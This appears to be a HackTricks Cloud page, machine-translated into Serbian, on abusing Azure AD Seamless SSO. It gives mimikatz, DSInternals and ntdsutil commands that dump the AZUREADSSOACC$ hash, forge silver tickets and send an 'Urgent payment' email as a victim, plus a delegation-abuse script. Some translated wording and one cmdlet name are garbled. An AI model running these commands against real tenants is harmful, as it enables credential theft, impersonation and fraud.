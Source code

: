 # Az - Besprekidan SSO

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Od dokumenata:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatski **prijavljuje korisnike kada su na svojim korporativnim uređajima** povezanim sa vašom korporativnom mrežom. Kada je omogućeno, **korisnici ne moraju da kućaju svoje lozinke da bi se prijavili na Azure AD**, i obično čak ne moraju ni da kućaju svoja korisnička imena. Ova funkcija omogućava vašim korisnicima jednostavan pristup vašim aplikacijama zasnovanim na oblaku bez potrebe za dodatnim komponentama na lokaciji.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

U osnovi, Azure AD Seamless SSO **prijavljuje korisnike** kada su **na računaru pridruženom domenu na lokaciji**.

Podržan je i od strane [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) i [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO koristi **Kerberos** za autentikaciju. Kada je konfigurisan, Azure AD Connect kreira **računara nazvanog AZUREADSSOACC`$`** u on-prem AD. Lozinka računa `AZUREADSSOACC$` se **šalje kao tekst u otvorenom obliku ka Azure AD** tokom konfiguracije.

**Kerberos tiketi** su **šifrovani** korišćenjem **NTHash (MD4)** lozinke, a Azure AD koristi poslatu lozinku za dešifrovanje tiketa.

**Azure AD** izlaže **krajnju tačku** (https://autologon.microsoftazuread-sso.com) koja prihvata Kerberos **tikete**. Browser računara pridruženog domenu prosleđuje tikete ovoj tački za SSO.

### Sa lokacije -> u oblak

**Lozinka** korisnika **`AZUREADSSOACC$` se nikada ne menja**. Stoga, administrator domena bi mogao da kompromituje **hash ovog naloga**, a zatim ga koristi da **kreira silver tikete** za povezivanje sa Azure-om sa **bilo kojim sinhronizovanim korisnikom sa lokacije**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Sada možete **generisati srebrne kartice** pomoću heša:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Da biste iskoristili srebrnu kartu, treba izvršiti sledeće korake:

1. **Pokrenite pregledač:** Mozilla Firefox treba da bude pokrenut.
2. **Konfigurišite pregledač:**
   * Idite na **`about:config`**.
   * Postavite postavku za [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na određene [vrednosti](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **Pristupite veb aplikaciji:**
   * Posetite veb aplikaciju koja je integrisana sa organizacionim AAD domenom. Čest primer je [Office 365](https://portal.office.com/).
4. **Proces autentikacije:**
   * Na ekranu za prijavljivanje, unesite korisničko ime, ostavljajući polje za lozinku prazno.
   * Da biste nastavili, pritisnite TAB ili ENTER.

{% hint style="success" %}
Ovo ne zaobilazi MFA ako je omogućeno.
{% endhint %}

#### ~~Kreiranje Kerberos karata za korisnike samo u oblaku~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Ako administratori Active Directory-ja imaju pristup Azure AD Connect-u, mogu **postaviti SID za bilo kog korisnika u oblaku**. Na ovaj način Kerberos **karte** mogu biti **kreirane i za korisnike samo u oblaku**. Jedini zahtev je da SID bude ispravan [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Promena SID-a korisnika samo u oblaku sada je **blokirana od strane Microsoft-a**.\
Za više informacija pogledajte [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### Sa lokalnog -> u oblak putem delegacije zasnovane na resursima <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Svako ko može upravljati računima računara (`AZUREADSSOACC$`) u kontejneru ili OU u kojem se nalazi ovaj nalog, može **konfigurisati delegaciju zasnovanu na resursima preko naloga i pristupiti mu**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Reference

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
